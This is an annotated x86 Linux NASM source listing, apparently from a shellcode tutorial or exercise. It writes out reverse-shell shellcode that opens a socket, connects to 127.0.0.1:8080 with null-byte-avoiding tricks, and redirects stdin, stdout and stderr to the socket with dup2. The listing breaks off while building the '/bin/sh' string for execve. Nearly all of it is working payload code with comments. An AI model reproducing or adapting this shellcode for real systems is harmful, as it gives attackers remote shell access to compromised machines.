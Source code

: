 ```nasm
    xor ebx,ebx
    mul ebx         ; zero out eax and edx
    mov al, 102     ; __NR_socketcall
    mov bl, 1       ; SYS_SOCKET
    
    ; we are pushing on the stack our arguments
    push edx        ; IPPROTO_IP
    push byte 1     ; SOCK_STREAM
    push byte 2     ; AF_INET
    
    mov ecx, esp    ; the top of the stack points to a structure of 3 arguments
    int 0x80        ; syscall - result is stored in eax
    mov edi, eax    ; stores sockfd

; ret = connect(sockfd, (struct sockaddr *) &mysockaddr, sizeof(struct sockaddr_in));
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_CONNECT       3
    
    push edx
    mov byte [esp], 0x7f    ; mysockaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //localhost
    mov byte [esp+3], 0x01  ; useful to avoid null bytes in the IP address

    push word 0x901f  ; mysockaddr.sin_port = htons(dstport); //8080
    push word 2     ; AF_INET
    mov ebx, esp    ; stores the address of mysockaddr
    push byte 16    ; length of mysockaddr
    push ebx        ; pointer to mysockaddr
    push edi        ; sockfd

    xor ebx, ebx    ; flushing registers
    mul ebx
    mov al, 102     ; __NR_socketcall
    mov bl, 3       ; SYS_CONNECT
    mov ecx, esp    ; pointer to the args for socketcall
    int 0x80



; int dup2(int oldfd, int newfd); duplicates a file descriptor
; dup2(sockfd, 0); 
; dup2(sockfd, 1);
; dup2(sockfd, 2);
; #define __NR_dup2 63

    mov ebx, edi    ; sockfd as first argument
    xor ecx, ecx
    mov cl, 2       ; 2 for stderr / 1 for stdout / 0 for stdin
    xor eax, eax

dup2:
    mov al, 63      ; __NR_dup2
    int 0x80
    dec ecx
    jns dup2        ; jump short if not signed 

; execve("/bin/sh", NULL, NULL);
; #define __NR_execve 11

    xor eax,eax
    push eax
    push 0x68732f2f ; hs// - take care to the little endian representation
    push 0x6e69622f ; nib/
```